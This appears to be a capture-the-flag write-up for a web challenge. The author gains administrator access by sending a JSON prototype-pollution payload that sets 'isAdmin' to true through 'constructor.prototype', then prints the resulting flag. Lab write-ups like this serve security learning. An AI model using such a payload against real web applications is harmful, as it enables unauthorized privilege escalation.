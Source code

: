 ![alt text](image.png)

![alt text](image-1.png)

So in this web challange i had to login as the administrator to find the flag. Wtaht drew my attentio was this code 

![alt text](image-2.png)


With the power of insering a JSON i could gain access
![alt text](image-3.png)

The payload that worked was:
{
    "options": {
        "constructor": {
            "prototype": {
                "isAdmin": true
            }
        }
    }
}

 Proof of success came later when a subsequent file upload resulted in a JSON response where all objects had inherited the "isAdmin": true property.

 ![alt text](image-4.png)
 Now I had the admin mode activated and claimed the flag

 ![alt text](image-5.png)
 ctf{fa82311c2970593b2df929b7d0f1ca6292a9a2d3707057b84a5127ceed38edd6}


 

